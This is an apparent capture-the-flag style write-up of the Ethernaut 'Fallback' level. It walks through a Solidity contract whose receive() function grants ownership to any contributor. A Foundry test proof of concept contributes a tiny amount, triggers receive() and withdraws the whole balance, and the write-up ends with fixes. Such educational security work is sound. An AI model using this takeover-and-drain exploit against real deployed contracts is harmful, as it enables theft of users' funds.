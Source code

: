 # Level 1 - Fallback

## Objectives

- claim ownership of the contract
- reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Contract Overview

The fallback contract allows users to contribute ether to the contract. The contract is supposed to work as follows:

- `contribute()` function is restricted to payments smaller than `0.001 ether`

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether); // <-- this line over here
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- if a user has contributed more than the owner, he then becomes the owner
  - claiming ownership this way would be very tedious because contributions of the initial owner are set to 1000 ether

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <-- this line over here
      owner = msg.sender; // <-- this line over here
    }
  }
```

- the owner can withdraw all of the funds

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Finding the weak spots

The fallback contract contains a `receive()` function that at first glance contains flawed logic. That is why if we want to claim ownership of the contract we have to trigger `receive()` function. In order to do this we have to fullfill `require` condition.

```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

> The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via .send() or .transfer()). If no such function exists, but a payable fallback function exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through regular transactions and throws an exception.
>
> _Reference: https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function_

We can send Ether to other contracts by:

- transfer
- send
- call

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  _Reference: https://solidity-by-example.org/sending-ether/_

We will need to use the `call` method so that the contract has enough gas left to change the `owner` state after performing the transfer. Both `send` and `transfer` have a fixed gas stipend which would be insufficient for this purpose.

## Potential attack scenario (hypothesis)

If attacker sends ether directly to the contract via external call, he can become the owner of the contract without the need to contribute more than the owner.

## Plan of the attack

1. Contribute with a small amount of ether to be added to the `contributions` mapping.
2. Trigger the fallback function (`receive()`) to gain ownership of the contract.
3. Confirm the ownership of the contract has changed.
4. Withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/01-Fallback.t.sol))

```solidity
  		//Triggering contribute function with value greater than 0
        fallbackContract.contribute{value: 1}();
        emit log_named_uint(
            "Attackers's contribution: ",
            fallbackContract.getContribution()
        );

        // Triggering the fallback function - we need to send a transaction to the contract without indicating a method. We are going to use global function call
        (bool success, ) = address(fallbackContract).call{value: 1}("");
        require(success);

        emit log_named_address(
            "New owner of the contract: ",
            fallbackContract.owner()
        );

        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(fallbackContract).balance
        );

        // Withdrawing contract balance
        fallbackContract.withdraw();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(fallbackContract).balance
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback.png)

## Recommendations

1. The first way to mitigate the issue would be to move ownership transfer out of the receive function into separate `transferOwnership()` function which would perform all the necessary checks.
2. Second possible solution is to add additional logic to the receive function to check if the user has enough contributions to become the owner. It could be done like this:

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	contributions[msg.sender] += msg.value;

	if (contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
